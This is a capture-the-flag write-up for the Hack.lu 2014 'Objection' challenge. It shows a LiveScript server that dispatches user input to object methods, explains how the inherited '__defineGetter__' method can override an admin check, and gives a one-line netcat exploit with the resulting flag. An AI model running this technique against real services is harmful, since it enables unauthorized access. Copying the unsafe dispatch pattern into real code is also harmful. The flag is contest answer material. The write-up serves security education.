 ```yaml
---
layout: post
title: "Hack.lu 2014 - Objection"
date: 2014-10-23 12:51
comments: true
author: darby
categories: web
---
```


## Challenge

This guard talks a weird dialect. And why does he talk in such a complicated
way?
[Download](https://wildwildweb.fluxfingers.net/static/chals/objection_4966674d17ff296939c0e3dfccfe87ed.co)

nc wildwildweb.fluxfingers.net 1408

## Analysis

Downloading the file gives us:

```coffeescript
const net = require \net
const BufferStream = require \bufferstream

admin_password = (require \fs).readFileSync \admin_password, \utf8


server = net.createServer (con) ->
  console.log 'client connected'
  con.write 'hello!\n'
  client_context =
    is_admin: false
    token: (require \fs).readFileSync \secret_token, \utf8
    login: ([password], cb) ->
      if password == admin_password
        cb "Authentication successful"
        @is_admin = true
      else
        cb "Authentication failed"
    get_token: ([], cb) ->
      if not @is_admin then return cb "You are not authorized to perform this action."
      cb "The current token is #{@token}"
  in_stream = new BufferStream {encoding:\utf8, size:\flexible}
  con.pipe in_stream
  <- in_stream.split \\n
  it .= toString \utf8
  console.log "got line: #{it}"
  [funcname, ...args] = it.split ' '
  if typeof client_context[funcname] != \function
    return con.write "error: unknown function #funcname\n"
  client_context[funcname] args, ->
    con.write "#it\n"

server.listen 1408, ->
  console.log 'server bound'
```

Clearly, we would like to get the token.  Calling `get_token()` requires knowing
the admin password.  The key thing to notice is the follow bit of code where
user input is parsed and used:

```coffeescript
  in_stream = new BufferStream {encoding:\utf8, size:\flexible}
  con.pipe in_stream
  <- in_stream.split \\n
  it .= toString \utf8
  console.log "got line: #{it}"
  [funcname, ...args] = it.split ' '
  if typeof client_context[funcname] != \function
    return con.write "error: unknown function #funcname\n"
  client_context[funcname] args, ->
    con.write "#it\n"
```

The first word of input is checked to be a function of the `client_context`
object.  Since this is turned into javascript, there will be many built-in
methods we could call besides `get_token()` and `login()`.

One method, `__defineGetter__` takes as parameters a property and a function
body.  By overriding `is_admin` with the function: `-> con.write "#it\n`, the
check in `get_token()` will not function as expected, and we will be able to see
the token.

## Solution

```
$ echo -e "__defineGetter__ is_admin\nget_token" | nc wildwildweb.fluxfingers.net 1408
hello!
undefined
The current token is flag{real_cowboys_dont_use_object_create_null}
$
```
